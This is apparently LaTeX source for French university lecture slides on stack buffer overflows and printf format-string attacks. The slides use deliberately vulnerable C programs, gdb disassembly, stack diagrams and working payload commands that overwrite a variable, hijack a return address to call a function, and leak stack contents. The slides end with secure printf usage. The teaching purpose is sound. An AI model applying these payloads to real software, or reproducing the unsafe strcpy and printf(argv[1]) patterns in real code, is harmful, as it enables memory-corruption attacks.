
%\documentclass[landscape]{slides}
\documentclass{beamer}
\usepackage{beamerfoils}
\usetheme{Pittsburgh}
%\usepackage[accumulated]{beamerseminar}
                                % remove ``accumulated'' option
                                % for original behaviour
%\usepackage{beamerthemeclassic}
\usepackage{ulem}
%\usepackage{beamerthemesplit}

%\usepackage{beamerthemeshadow}

%\usepackage{beamerthemeplain}
%\usepackage{times}
\usepackage{colortbl}

%\usepackage{lslide}
\def\emptyline{\vspace{10pt}}
\usepackage{amssymb}
%\usepackage{french}
%\usepackage[latin1]{inputenc}
\usepackage[utf8]{inputenc}
%\usepackage[T1]{fontenc}
\usepackage[]{color}
%\usepackage[usenames,dvipsnames]{color}
%\usepackage[pdftex]{color}
%\usepackage[]{colorlslide,epsfig}
%\usepackage{amsfonts,stmaryrd}
\usepackage{epsfig}

\usepackage{graphicx,array}
\usepackage{tikz}
\usetikzlibrary{shadows.blur}
\usepackage{amsmath}%,amsthm}
\usepackage{hyperref}
\usepackage{pifont}
\usepackage{listings}

%\renewcommand{\frame}{\end{slide}   \begin{slide}}
%\newcommand{\frametitle}{\centerline}


%\usepackage{beamerthemeshadow}
\usepackage{graphicx}
%\usepackage{beamerthemesplit}

\graphicspath{{./}{figures/}}

%%%%%%%%%%%%%%%%%% ENVIRONEMENTS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newtheorem{deft}{Définition}
%\newtheorem{theorem}{Théorème}
\newtheorem{proposition}{Proposition}
\newtheorem{exemple}{Exemple}
\newtheorem{postulat}{Postulat}


%%%%%%%%%%%%%%%%%% COULEURS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\definecolor{encre}{rgb}{0.2, 0, 0.4}
\definecolor{lightblue}{rgb}{0.3,0.35,5}

\newcommand{\red}[1]{\only<#1>{\color{red}}}
\newcommand{\green}[1]{\only<#1>{\color{green}}}
\newcommand{\lra}{\leftrightarrow}
\newcommand{\Fd}{\mathbb{F}}
\newcommand{\enlight}[1]{\textit{\color{blue}#1}}
\newcommand{\blue}[1]{\textit{\color{blue}#1}}

%%   for the headline etc.
\renewcommand\normalcolor{\color{coltitle}}


%%   for the background
%\pagecolor{grisbleu}
%%   for the text
\color{encre}

%%%%%%%%%%%%%%% CONFIGURATION LISTINGS %%%%%%%%%%%%%%%%%%%%%%%%%%
\definecolor{codegreen}{rgb}{0.25,0.49,0.25}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codeblue}{rgb}{0.0,0.0,0.7}
\definecolor{codered}{rgb}{0.7,0.1,0.1}
\definecolor{backcolour}{rgb}{0.97,0.97,0.97}

\lstset{
    basicstyle=\ttfamily\scriptsize,
    backgroundcolor=\color{backcolour},
    commentstyle=\color{codegreen}\itshape,
    keywordstyle=\color{codeblue}\bfseries,
    stringstyle=\color{codered},
    breaklines=true,
    showstringspaces=false,
    tabsize=4,
    frame=single,
    rulecolor=\color{codegray},
    numbers=left,
    numberstyle=\tiny\color{codegray},
    numbersep=5pt,
    xleftmargin=1.5em,
    framexleftmargin=1.5em,
    literate={é}{{\'e}}1 {è}{{\`e}}1 {ê}{{\^e}}1 {à}{{\`a}}1 {ù}{{\`u}}1 {î}{{\^i}}1 {ô}{{\^o}}1
}

%%%%%%%%%%%%%%% voir le style ....
 \beamertemplatenavigationsymbolsempty
\beamertemplatefootempty
%\beamertemplatefootframenumber
\setbeamertemplate{footline}[frame number]


\title{Débordement de Tampon \\ {\small (Buffer Overflow)}}
\date{Février 2026}

\AtBeginSection[]
{
\begin{frame}
\frametitle{Plan}
\tableofcontents[currentsection,sectionstyle=show/shaded,subsectionstyle=show/show/hide]
\end{frame}
}

\AtBeginSubsection[]
{
\begin{frame}
\frametitle{Plan}
\tableofcontents[currentsubsection,sectionstyle=show/shaded,subsectionstyle=show/shaded/hide]
\end{frame}
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\titlegraphic{
\centering

\includegraphics[width=4cm]{logo-upvd.png}
}
\begin{document}

\maketitle



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Débordement de tampon (buffer overflow)}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Introduction}

\begin{frame}
\frametitle{Débordement de tampon : présentation}

\begin{block}{Principe}
Technique très utilisée pour exécuter du code malveillant sur une machine distante.
\end{block}

\begin{itemize}
\item Nécessite qu'une ou plusieurs applications critiques (impliquées dans la gestion des connexions extérieures) contiennent une telle faille.
\item De nombreux \enlight{vers} utilisent le débordement de tampon.
\item On déborde d'un tableau de façon à \enlight{écraser des données} pour modifier le comportement du programme.
\end{itemize}

\end{frame}


\subsection{Modifier des données adjacentes}

\begin{frame}[fragile]
\frametitle{Exploit d'un jeu de devinette}

On considère le code C suivant (tiré d'un sujet de contrôle système) :

\begin{lstlisting}[language=C]
int main()
{
  char nom[8];
  int a,b;
  srand(time(NULL));
  b=rand() & 0x3f;
  printf("Entrez votre nom:\n");
  scanf("%s",nom);
  printf("Proposez un nombre dans 0,..,63:\n");
  scanf("%d",&a);
  write(STDOUT_FILENO,nom,8);
  if( b == a )
      printf(" vous avez gagne!\n");
  else
      printf(" vous avez perdu!\n");
  printf("Le numero a trouver etait:%d\n",b);
  return(0);
}
\end{lstlisting}

\end{frame}

\begin{frame}[fragile]
\frametitle{Analyse du code assembleur}

L'analyse du code assembleur permet de connaître l'organisation des données :

\begin{lstlisting}[language={[x86masm]Assembler},basicstyle=\ttfamily\tiny]
(gdb) disassemble main
   0x0000000000001226 <+29>: call   0x1110 <rand@plt>
   0x000000000000122b <+34>: and    eax,0x3f
   0x000000000000122e <+37>: mov    DWORD PTR [rbp-0x4],eax  # adresse de b
   ...
   0x000000000000123d <+52>: lea    rax,[rbp-0xc]   # adresse de nom
   ...
   0x0000000000001261 <+88>: lea    rax,[rbp-0x10]  # adresse de a
\end{lstlisting}

\end{frame}


\begin{frame}[fragile]
\frametitle{Organisation de la pile}

L'espace local de \texttt{main} est :
\begin{center}
\begin{tikzpicture}[scale=0.6, every node/.style={font=\ttfamily\scriptsize}]
  % Stack frame
  \draw (0,0) rectangle (4,1); \node at (2,0.5) {a (4 octets)};
  \node[left] at (0,0.5) {rbp-16};
  \draw (0,1) rectangle (4,3); \node at (2,2) {nom[0..7]};
  \node[left] at (0,2) {rbp-12};
  \draw (0,3) rectangle (4,4); \node at (2,3.5) {b (4 octets)};
  \node[left] at (0,3.5) {rbp-4};
  \draw (0,4) rectangle (4,5); \node at (2,4.5) {savedRBP};
  \node[left] at (0,4.5) {rbp};

  % Arrow showing overflow
  \draw[->,red,thick] (5,2) -- (5,3.5) node[midway, right, red] {débordement !};
\end{tikzpicture}
\end{center}

\begin{itemize}
\item \texttt{nom[8]} se trouve \emph{juste avant} l'entier \texttt{b}
\item On entre la chaîne de caractères \emph{après} que \texttt{b} ait été tiré aléatoirement
\end{itemize}

\end{frame}


\begin{frame}[fragile]
\frametitle{L'exploit}

\begin{block}{Stratégie}
Choisir un nom \textbf{plus long que 8 caractères}. Le 9\textsuperscript{e} caractère écrase la valeur de \texttt{b}.
\end{block}

On choisit par exemple ``\texttt{joceline!}'' (9 caractères, le ``!'' a le code ASCII 33) :

\begin{lstlisting}[language=bash]
$ gcc -g -fno-stack-protector debordement-var-locales.c
$ ./a.out
Entrez votre nom:
joceline!
Proposez un nombre dans 0,..,63:
33
joceline vous avez gagne!
Le numero a trouver etait:33
\end{lstlisting}

\begin{alertblock}{Résultat}
Le caractère ``!'' (ASCII 33) écrase \texttt{b}, donc \texttt{b=33}. Il suffit de proposer 33 pour gagner !
\end{alertblock}

\end{frame}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Dérouter l'exécution d'un programme}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Organisation de la pile}

\begin{frame}
\frametitle{Organisation de la pile}

La pile est une \enlight{zone de mémoire contiguë} contenant :
\begin{itemize}
\item Les variables locales d'une fonction
\item Les paramètres d'appel d'une fonction
\item Les valeurs de retour d'une fonction
\item Les données permettant la reprise du programme en fin de fonction (\enlight{savedRIP} et \enlight{savedRBP})
\end{itemize}

\end{frame}


\begin{frame}
\frametitle{Registres \texttt{RSP}, \texttt{RBP} et \texttt{SavedRIP}}

\begin{itemize}
\item \textbf{RSP} (\textit{Stack Pointer}) : contient l'adresse du sommet de la pile (l'adresse du dernier élément empilé)

\item \textbf{RBP} (\textit{Base Pointer}) : pointe sur le bas de la zone mémoire de la fonction

\item \textbf{SavedRIP} : contient l'adresse du code après l'appel à la fonction. Cette valeur est dépilée et chargée dans le registre \texttt{RIP} par l'instruction \texttt{ret}
\end{itemize}

\end{frame}


\subsection{Dérouter avec un incrément}

\begin{frame}[fragile]
\frametitle{Modifier savedRIP avec un incrément}

On considère le code C suivant :
\begin{lstlisting}[language=C]
#include <stdio.h>

void function(long a, long b)
{
  long buffer[2]={0,1};
  buffer[a]+=b;
}
void main()
{
  long a,b;
  a=0;
  b=15;
  function(a,b);
  printf("coucou1\n");
  printf("coucou2\n");
}
\end{lstlisting}

L'exécution affiche \texttt{coucou1} et \texttt{coucou2}.

\end{frame}


\begin{frame}
\frametitle{Évolution de la pile}

\begin{center}

\includegraphics[width=12cm]{evolution-pile.pdf}
\end{center}

\end{frame}


\begin{frame}[fragile]
\frametitle{L'exploit : sauter \texttt{printf("coucou1")}}

\begin{block}{Objectif}
Modifier \texttt{savedRIP} lors de l'appel à \texttt{function} pour ne pas exécuter le premier \texttt{printf}.
\end{block}

On choisit \texttt{a} et \texttt{b} tels que :
\begin{itemize}
\item \texttt{buffer[a]} corresponde à \texttt{savedRIP}
\item L'incrément \texttt{+b} modifie \texttt{savedRIP} pour qu'il pointe sur les instructions d'appel à \texttt{printf("coucou2\textbackslash n")}
\end{itemize}

\medskip
Pour la valeur de \texttt{a}, il faut avancer le pointeur \texttt{buffer} de 24 octets :
\begin{itemize}
\item 8 octets pour \texttt{buffer[0]}
\item 8 octets pour \texttt{buffer[1]}
\item 8 octets pour \texttt{savedRBP}
\end{itemize}
Soit \texttt{a = 24/8 = 3}.

\end{frame}


\subsection{Dérouter avec un débordement}

\begin{frame}[fragile]
\frametitle{Écraser savedRIP par débordement}

Code qui affiche ``bonjour prénom'' :

\begin{lstlisting}[language=C]
#include <stdio.h>
#include <string.h>

void g()
{
  printf("on est dans g!\n");
  return;
}

void bonjour(char *s)
{
  char nom[8];
  strcpy(nom,s);
  printf("Bonjour %s %08lx\n",nom,nom+16);
  return;
}

void main(int argc, char **argv)
{
  if( argc >= 2)
      bonjour(argv[1]);
  printf("coucou1\n");
  printf("coucou2\n");
}
\end{lstlisting}

\end{frame}


\begin{frame}[fragile]
\frametitle{Trouver l'adresse de \texttt{g()}}

On compile sans protection de pile et sans randomisation des adresses :

\begin{lstlisting}[language=bash]
$ gcc -fno-stack-protector -no-pie -g debordement-appel.c
$ gdb a.out
(gdb) disassemble g
Dump of assembler code for function g:
   0x0000000000401176 <+0>:  endbr64
   0x000000000040117a <+4>:  push   rbp
   0x000000000040117b <+5>:  mov    rbp,rsp
   ...
   0x000000000040118f <+25>: ret
End of assembler dump.
\end{lstlisting}

L'adresse de \texttt{g} est \texttt{0x401176}.

\end{frame}


\begin{frame}[fragile]
\frametitle{La pile dans \texttt{bonjour()}}

\begin{center}
\begin{tikzpicture}[scale=0.55, every node/.style={font=\ttfamily\scriptsize}]
  % Stack frame
  \draw (0,0) rectangle (5,2); \node at (2.5,1) {nom[0..7]};
  \node[left] at (0,1) {rbp-8};
  \node[right] at (5,1) {\textcolor{blue}{variable locale}};

  \draw (0,2) rectangle (5,4); \node at (2.5,3) {savedRBP};
  \node[left] at (0,3) {rbp};
  \node[right] at (5,3) {\textcolor{orange}{8 x 'b'}};

  \draw (0,4) rectangle (5,6); \node at (2.5,5) {savedRIP};
  \node[left] at (0,5) {rbp+8};
  \node[right] at (5,5) {\textcolor{red}{0x76 0x11 0x40 0x00...}};

  % Arrow
  \draw[->,red,thick] (6.5,1) -- (6.5,5) node[midway, right, red] {strcpy déborde};
\end{tikzpicture}
\end{center}

Le prénom donné est : \texttt{"jocelinebbbbbbbb\textbackslash x76\textbackslash x11\textbackslash x40"}
\begin{itemize}
\item 8 caractères ``joceline'' remplissent \texttt{nom}
\item 8 caractères ``b'' écrasent \texttt{savedRBP}
\item \texttt{0x76 0x11 0x40} = adresse de \texttt{g()}
\end{itemize}

\end{frame}


\begin{frame}[fragile]
\frametitle{L'exploit en action}

\begin{lstlisting}[language=bash]
$ echo $(python3 -c "print('Joceline'+'bbbbbbbb'+'\x76\x11\x40')")
Jocelinebbbbbbbbv@
$ ./a.out $(python3 -c "print('Joceline'+'bbbbbbbb'+'\x76\x11\x40')")
Bonjour Jocelinebbbbbbbbv@ 7ffff208bff8
on est dans g!
Segmentation fault (core dumped)
\end{lstlisting}

\begin{alertblock}{Résultat}
On a bien exécuté la fonction \texttt{g()} ! Le \emph{segfault} est normal car \texttt{savedRBP} a été corrompu.
\end{alertblock}

\end{frame}



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\section{Exploiter la chaîne de format de printf}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\subsection{Principe}

\begin{frame}[fragile]
\frametitle{La chaîne de format de \texttt{printf}}

On peut utiliser la chaîne de format de \texttt{printf} pour \enlight{lire sur la pile} à des zones mémoires non prévues.

\begin{lstlisting}[language=C]
#include <stdio.h>

int main(int argc, char **argv)
{
  int u=5,v=9,w=11;
  printf("u vaut %d et se trouve a l adresse %08x\n"
         "v vaut %d\nw vaut %d\n",u,&u,v);
}
\end{lstlisting}

\begin{lstlisting}[language=bash]
$ gcc -o format format.c
$ ./format
u vaut 5 et se trouve a l adresse bffff7d4
v vaut 9
\end{lstlisting}

\texttt{w} n'est pas affiché car il n'y a pas assez d'arguments.

\end{frame}


\begin{frame}[fragile]
\frametitle{Plus de formats que d'arguments}

\begin{lstlisting}[language=C]
#include <stdio.h>

int main(int argc, char **argv)
{
 int u=5,v=9;
 printf("u vaut %d et se trouve a l adresse %08x\n"
        "v vaut %d\n",u,&u);
}
\end{lstlisting}

\begin{lstlisting}[language=bash]
$ ./format
u vaut 5 et se trouve a l adresse bffff7d4
v vaut -1208127500
\end{lstlisting}

\begin{alertblock}{Explication}
\texttt{printf} analyse la chaîne de format puis va chercher les valeurs dans les registres et sur la pile, \textbf{même si on ne les a pas mis en paramètre} !
\end{alertblock}

\end{frame}


\subsection{Passage de paramètres à printf}

\begin{frame}[fragile]
\frametitle{Registres puis pile}

\begin{exemple}
On considère un appel à \texttt{printf} avec de multiples entiers à afficher :
\begin{lstlisting}[language=C]
#include <stdio.h>

int main()
{
  int u=5;
  printf("u vaut %d,u vaut %d, u vaut %d, u vaut %d,"
         " u vaut %d, u vaut %d, u vaut %d\n",
         u,u,u,u,u,u,u);
}
\end{lstlisting}
\end{exemple}

Les deux derniers paramètres sont passés sur la pile (avec des \texttt{push}). La fonction \texttt{printf} lit les données systématiquement dans les registres puis sur la pile.

\end{frame}


\begin{frame}
\frametitle{Schéma du passage de paramètres}

\begin{center}

\includegraphics[width=14cm]{dessin.pdf}
\end{center}

\end{frame}


\subsection{Exploitation avec \texttt{printf(argv[1])}}

\begin{frame}[fragile]
\frametitle{Un code dangereux : \texttt{printf(argv[1])}}

\begin{lstlisting}[language=C]
#include <stdio.h>
int main(int argc, char **argv)
{
    int u=5,v=9;
    char t[]="abcabcabcabcabcabcabc";
    char s[]="secret";

    printf("%s",argv[1]);  // correct
    printf(argv[1]);       // DANGEREUX !
    printf("\n");
}
\end{lstlisting}

\begin{alertblock}{Danger}
\texttt{printf(argv[1])} utilise l'entrée utilisateur comme chaîne de format : l'attaquant contrôle les formats !
\end{alertblock}

\end{frame}


\begin{frame}[fragile]
\frametitle{Lecture de la pile via \texttt{\%08x} et \texttt{\%016lx}}

\begin{lstlisting}[language=bash,basicstyle=\ttfamily\tiny]
$ ./a.out coucou
coucoucoucou
$ ./a.out coucou%08x
coucou%08xcoucou17bbd006
$ ./a.out coucou%08x%08x%08x%08x
coucou%08x%08x%08x%08xcoucoufcc52006000000000000000100000000
$ ./a.out $(python3 -c "print('coucouuu'+20*'-%016lx')")
coucouuu-...-00746572636573ff-6463626164636261
-0063626164636261-...-0000000500000009-...
\end{lstlisting}

On voit apparaître les variables locales du \texttt{main} :
\begin{itemize}
\item \texttt{"00746572636573ff"} $\rightarrow$ ``secret'' (en hexadécimal)
\item \texttt{"6463626164636261"} $\rightarrow$ ``abcdabca'' (en hexadécimal)
\item \texttt{"0000000500000009"} $\rightarrow$ les valeurs de \texttt{u=5} et \texttt{v=9}
\end{itemize}

\end{frame}


\begin{frame}[fragile]
\frametitle{Organisation mémoire confirmée}

L'analyse du code assembleur confirme :

\begin{center}
\begin{tikzpicture}[scale=0.55, every node/.style={font=\ttfamily\scriptsize}]
  \draw (0,0) rectangle (5,1.5); \node at (2.5,0.75) {s[] = "secret"};
  \node[left] at (0,0.75) {rbp-0x27};

  \draw (0,1.5) rectangle (5,4); \node at (2.5,2.75) {t[] = "abcabc..."};
  \node[left] at (0,2.75) {rbp-0x20};

  \draw (0,4) rectangle (5,5); \node at (2.5,4.5) {v = 9};
  \node[left] at (0,4.5) {rbp-0x8};

  \draw (0,5) rectangle (5,6); \node at (2.5,5.5) {u = 5};
  \node[left] at (0,5.5) {rbp-0x4};

  \draw (0,6) rectangle (5,7); \node at (2.5,6.5) {savedRBP};
  \node[left] at (0,6.5) {rbp};
\end{tikzpicture}
\end{center}

\end{frame}


\begin{frame}
\frametitle{Conclusion : bonnes pratiques}

\begin{itemize}
\item Avec quelques astuces, on peut lire sur la pile à \textbf{n'importe quelle adresse}
\item On peut aussi \textbf{écrire} sur la pile à n'importe quelle adresse
\end{itemize}

\begin{alertblock}{À bannir}
\centerline{\texttt{printf(char\_pointer);}}
\end{alertblock}

\begin{exampleblock}{Méthode sûre}
\centerline{\texttt{printf("\%s", char\_pointer);}}
\end{exampleblock}

La chaîne de format est dans ce cas dans les constantes du programme et ne peut être manipulée.

\end{frame}

\end{document}
